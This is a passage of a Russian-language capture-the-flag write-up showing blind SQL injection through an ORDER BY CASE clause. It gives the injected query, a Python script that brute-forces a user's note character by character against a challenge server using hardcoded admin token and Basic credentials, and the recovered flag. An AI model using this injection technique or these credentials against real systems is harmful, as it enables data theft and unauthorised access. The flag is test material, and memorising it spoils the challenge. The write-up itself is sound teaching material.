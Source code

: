 составим следующий запрос, для получения note

```
SELECT * FROM USER ORDER BY (CASE WHEN (
SELECT (SUBSTRING(note,1,1))
FROM user
WHERE id=1)='d' THEN note ELSE id END)
```

В зависимости от того, по какому полю происходит сортировка можно определить успешность выполнения условия.
Напишем скрипт, который будет перебирать символы и получим флаг.

```
import requests
import string

header = {
    "Cookie": "token=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJwdWJsaWNfaWQiOiIxMzQ2OTk0NC0xZmZlLTQ2ZTUtYTNmYi1lN2ZmZDZmYmFiOWEiLCJ1c2VybmFtZSI6ImFkbWluIiwicm9sZSI6ImFkbWluIiwiZXhwIjoxOTgyODUyNjI2fQ.HUdYVGpFbK-2p_mEi6Xc5sWVHcj_c-wgF_aHUj5ksac",
    "Authorization": "Basic ZGV0ZWFjdDE6eGhaTUlCOTV4UjN5"
}
possible_chars = list(string.ascii_letters)[:26] + list(string.digits) + ['{', '}']

flag = ''
for j in range(1, 42):
    for i in possible_chars:
        url1 = "http://45.131.97.54:1559/api/users?order=(case when (select (substring(note,{},1))" \
               "from user\n" \
               "where id=1)='{}' then note else id end)".format(
            j, i)
        r = requests.get(url1, headers=header)
        if r.json()['0']['username'] == 'admin':
            flag += i
            print(flag)
            break

```

`deteact{d873cd677b3a84687a694ebd7003889d}`

